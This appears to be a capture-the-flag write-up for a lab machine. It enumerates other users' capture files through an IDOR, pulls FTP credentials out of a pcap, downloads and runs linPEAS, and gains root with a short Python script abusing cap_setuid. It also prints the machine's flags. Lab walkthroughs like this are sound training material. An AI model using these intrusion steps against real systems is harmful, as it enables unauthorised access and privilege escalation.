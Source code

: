 Let's scan the IP address
```bash
sudo nmap -v -sC -sV 10.10.10.245
```

![image](images/20250308164440.png)

Go to the site

![image](images/20250308164545.png)

Go to `Security Snapshot` and notice that the `URL` has `/data/id`. If we substitute a different `id`, we will go to a different user's page. To check how many `.pcap` files there are, we will use `Burp Suite Intruder`

![image](images/20250308170148.png)

Let's create a list containing numbers from `0` to `100`
```bash
seq 0 100 > number_list.txt
```

![image](images/20250308170354.png)

Paste this file into `Intruder` and launch the attack

![image](images/20250308170500.png)

We see that there is an `id` with files. This is `0, 4, 10, 11, 12, 13, 14`

![image](images/20250308170644.png)

Download and look at the file with `id=0`

![image](images/20250308170857.png)

Look for the `ftp` packet and open it via `Follow > TCP Stream`

![image](images/20250308171138.png)

There are credentials for authorization via `FTP`
```Username
nathan
```
```Password
Buck3tH4TF0RM3!
```
Log in to `FTP`
```bash
ftp nathan@10.10.10.245
```

![image](images/20250308171351.png)

Download everything we see

![image](images/20250308171544.png)


![image](images/20250308171558.png)

```flag
2902bb729f0bf336292c1538ad2fed60
```
Try connecting to `nathan` via `SSH`

![image](images/20250308171905.png)

Try finding files with the **SUID bit** set
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

![image](images/20250308184026.png)

Nothing interesting here.
Let's look at the scheduled tasks in `cron`
```bash
cat /etc/crontab
```

![image](images/20250308184445.png)

Nothing interesting here either. I'll use a [script](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to search for directories for privilege escalation. Download it, move it to `/var/www/html` and start the `http` server.
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```
```bash
cp linpeas.sh /var/www/html
```
After that, download this script on the victim's machine
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

![image](images/20250308190711.png)

Run the script

![image](images/20250308190747.png)

If you look at the entire output of the script, only `Capabilities` is highlighted
>[!info] Note
>**Capabilities** is a Linux mechanism that allows processes to be given **limited root privileges** without full access.


![image](images/20250308191005.png)

```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```
- **`cap_setuid`** — allows you to change the UID of a process (e.g. become root).
- **`cap_net_bind_service`** — allows you to bind to ports < 1024 (e.g. 80/tcp).

> **Bind** (from English _bind_ — "to bind") in the context of network programming means that the process **binds itself to a specific network port** on the computer to start accepting incoming connections.

<div style="page-break-after: always;"></div>

---

`Copabilities` could also be found with the command
```bash
getcap -r / 2>/dev/null
```

![image](images/20250308192135.png)


---

Let's create a simple exploit
```Python
import os

# Set UID=0 (root)
os.setuid(0)
# Launch root shell
os.system("/bin/bash")
```
After that, launch it
```bash
/usr/bin/python3.8 exploit.py
```

![image](images/20250308191810.png)

```flag
7083163567f8d5008fb15552ed74e674
```
